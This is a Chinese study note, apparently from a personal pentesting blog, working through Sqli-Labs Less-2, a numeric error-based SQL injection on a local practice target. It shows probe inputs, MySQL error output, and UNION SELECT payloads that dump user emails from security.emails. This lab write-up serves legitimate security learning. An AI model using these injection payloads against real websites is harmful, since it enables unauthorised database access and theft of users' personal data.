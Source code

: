 +++
date = "2019-08-21T17:29:11+08:00"
menu = ""
categories = ["渗透学习笔记"]
tags = ["Sql-Lib靶场通关"]

banner = "banners/less2.png"
title = "Sql-Lib第二关"
description = "数字型的注入题"
images = []

+++

- 漏洞类型：GET - Error based - intiger based
- 目标网址（本地靶场）：http://www.sqllib.com/less-2/?id=
- 目标：获取网站用户的邮箱

---



# ① 判断接受的参数类型

## 单引号测试

```
id=1'
```

### 报错

> check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

## 闭合前后单引号，布尔表达式测试

```
id=1' and '1
```

### 报错

> check the manual that corresponds to your MySQL server version for the right syntax to use near '' and '1 LIMIT 0,1' at line 1

## 运算操作符测试

```
id=2-1
```
**成功显示 "id=1" 时的信息！**

一开始，我们假设是字符型，通过 (id=1' and '1) 尝试闭合单引号，使得SQL语句能够正常带入数据库查询，但是失败了。

通过（id=2-1）正常显示 "id=1" 时的用户信息，说明当前传入的参数类型是数字型，支持运算操作符号。

# ② 通过 Union selecet 查询数据

```
① id=-1 union select null,id,email_id from security.emails limit m,1
② id=1 and 1=2 union select null,id,email_id from security.emails limit m,1
```

- m 范围 1~99 的数字

- "id=-数字" 和 "id=1 and 1=2" 效果是一样的，**都是为了使得正常的查询结果不存在**，而让数据库继续把 Union 后的查询语句，带入数据库查询，并回显信息。

接下来通过改变 m 的数值，能够查询出所有的用户邮箱信息。